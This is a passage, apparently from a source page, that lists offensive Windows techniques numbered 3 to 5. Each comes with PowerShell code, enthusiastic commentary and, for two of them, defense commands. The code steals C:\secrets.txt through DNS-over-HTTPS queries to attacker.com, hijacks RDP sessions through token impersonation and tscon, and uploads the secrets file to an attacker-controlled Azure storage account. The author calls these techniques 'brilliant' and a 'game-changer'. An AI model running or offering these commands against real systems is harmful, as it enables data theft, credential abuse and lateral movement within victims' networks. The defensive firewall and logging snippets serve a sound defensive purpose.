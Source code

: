 
#### **3. DNS-over-HTTPS (DoH) Tunneling**  
```powershell  
# Exfiltrate data via encrypted DNS  
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt"))  
$query = "$data.attacker.com"  
Invoke-RestMethod -Uri "https://dns.google/resolve?name=$query&type=TXT" -Method Get  
```  
- **Why It’s Strong**:  
  - DNS-over-HTTPS (DoH) encrypts DNS traffic, making it difficult to inspect.  
  - This technique bypasses traditional DNS monitoring tools.  
- **My Opinion**:  
  - DoH tunneling is a **game-changer** for stealthy data exfiltration. It’s becoming increasingly popular in advanced attacks.  

**Defense**:  
```powershell  
# Block DoH endpoints  
New-NetFirewallRule -DisplayName "Block DoH" -Direction Outbound -Action Block -Protocol TCP -RemoteAddress "8.8.8.8,1.1.1.1" -RemotePort 443  

# Monitor for base64 in DNS queries  
Get-WinEvent -LogName "Microsoft-Windows-DNS-Client/Operational" | Where-Object { $_.Message -match "[A-Za-z0-9+/]{20,}={0,2}" }  
```  

---

#### **4. Token Impersonation + RDP Hijacking**  
```powershell  
# Steal an RDP session token (requires SYSTEM privileges)  
Invoke-TokenManipulation -ImpersonateUser -Username "DOMAIN\Admin"  
tscon 1 /dest:rdp-tcp#0  
```  
- **Why It’s Strong**:  
  - Allows attackers to hijack active RDP sessions without needing credentials.  
  - Operates entirely in memory, leaving minimal traces.  
- **My Opinion**:  
  - This is a **brilliant technique** for lateral movement in environments where RDP is widely used. It’s especially dangerous in shared or multi-user systems.  

**Defense**:  
```powershell  
# Restrict SeImpersonatePrivilege  
secedit /configure /cfg %windir%\inf\defltbase.inf /db defltbase.sdb /verbose  

# Enable Restricted Admin Mode for RDP  
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0  
```  

---

#### **5. AzureAD-Based C2 (Living-off-Cloud)**  
```powershell  
# Exfiltrate data via Azure Blob Storage  
$storageContext = New-AzStorageContext -ConnectionString "DefaultEndpointsProtocol=https;AccountName=attackeraccount;AccountKey=..."  
Set-AzStorageBlobContent -File C:\secrets.txt -Container "exfil" -Blob "data.txt" -Context $storageContext  
```  
- **Why It’s Strong**:  
  - Uses legitimate cloud services, blending in with normal traffic.  
  - Difficult to detect without specialized cloud monitoring tools.  
- **My Opinion**:  
  - Cloud-based C2 is the **future of advanced attacks**. It’s incredibly effective because it leverages trusted platforms like Azure, AWS, or Google Cloud.  
